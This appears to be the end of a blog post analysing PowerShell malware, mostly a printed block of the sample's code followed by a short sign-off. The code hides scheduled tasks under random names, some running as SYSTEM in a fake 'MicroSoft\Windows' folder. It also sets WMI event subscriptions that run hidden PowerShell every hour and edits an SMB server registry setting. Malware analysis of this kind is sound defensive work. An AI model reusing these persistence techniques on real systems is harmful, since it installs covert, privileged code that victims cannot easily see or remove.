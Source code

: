 ```powershell
		if($i%3 -eq 0){$tnf=''}
		if($i%3 -eq 1){$tnf=getRan}
		if($i%3 -eq 2){if($sa){$tnf='MicroSoft\Windows\'+(getRan)}else{$tnf=getRan}}
		$tn = getRan

		if($sa){
			schtasks /create /ru system /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -c PS_CMD"
		} else {
			schtasks /create /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -w hidden -c PS_CMD"
		}

		start-sleep 1
		$folder=$stsrv.GetFolder("\$tnf")
		$taskitem=$folder.GetTasks(1)

		foreach($task in $taskitem){
			foreach ($action in $task.Definition.Actions) {
				try{
					if($action.Arguments.Contains("PS_CMD")){
						$folder.RegisterTask($task.Name, $task.Xml.replace("PS_CMD",$tmps.replace('U1',$u.substring(0,5)).replace('U2',$u.substring(5))), 4, $null, $null, 0, $null)|out-null
					}
				}catch{}
			}
		}
		schtasks /run /tn "$tnf\$tn"
		start-sleep 5
	}
}

try{
	$doit1=Get-WMIObject -Class __EventFilter -NameSpace 'root\subscription' -filter "Name='$uniq_name'"
}catch{}

if(-not $doit1){
    Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name="$uniq_name";EventNameSpace="root\cimv2";QueryLanguage="WQL";Query="SELECT * FROM __InstanceModificationEvent WITHIN 3600 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'";} -ErrorAction Stop

    foreach($u in $us){
        $theName=getRan
        $wmicmd=$tmps.replace('U1',$u.substring(0,5)).replace('U2',$u.substring(5)).replace('a.jsp','aa.jsp')
        Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=(Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name="f"+$theName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query="SELECT * FROM __InstanceModificationEvent WITHIN 3600 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'";} -ErrorAction Stop);Consumer=(Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name="c"+$theName;ExecutablePath="c:\windows\system32\cmd.exe";CommandLineTemplate="/c powershell -w hidden -c $wmicmd"})}
        start-sleep 5
    }
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 ???Force
}
```

What a journey.

I hope that you found this blog post useful, thanks for reading. Good luck catching the IEX!
